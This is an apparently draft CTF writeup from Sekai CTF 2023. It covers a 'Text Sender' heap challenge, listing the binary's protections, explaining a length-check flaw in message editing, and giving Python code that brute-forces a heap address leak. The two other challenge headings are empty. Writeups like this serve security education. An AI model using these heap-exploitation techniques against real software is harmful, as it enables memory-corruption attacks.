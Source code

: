 ```yaml
---
title: "Sekai 2023 Writeups"
date: 2023-08-30T08:16:54+07:00
draft: true
categories: 
  - writeups
tags:
  - pwn
summary: "Sekai 2023 Writeups"
# featuredImage: 
---
```


# [pwn 100] Network Tools



# [pwn 100] Cosmic Ray



# [pwn 400] Text Sender



![img](images/double_free_meme.jpg)

Really cool challenge

## analyze

```c
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
```

The program manage a `sender` pointer containing the sender's name and a request list containing request object. A request includes receiver's name and message.

1. set sender: allocate and put `f"Sender: {input}"` into `sender` pointer
2. add message: allocate request object, name and message.
3. edit message: iterate through req list, name compare and edit message
4. print all message
5. send all message: free contents of `sender`, request objects and the objects themselves

## leak heap

`getline()` in `edit_message()` accepts input of arbitrarily length, and the name comparison uses the length of input instead of name in request object for length check, which can be abused for brute forcing heap address.

```python
# leak heap 
set_sender("TUYEN")
add(b'XX', b'AA')
send_all()

add(b'XX', b'AA')
add(b'YY', b'AA')
heap = b'\x0a'  # first nibble
payload = b'YY'.ljust(0x78, b'\x00')
payload += p64(0x21)    # size
for i in range(3):
    for c in range(0, 0xff):
        if c == 0xa:
            continue
        ok = edit(payload + heap + p8(c), b'AA')
        if ok:
            heap += p8(c)
            break
log.info("leak heap: " + hex(heap))
```



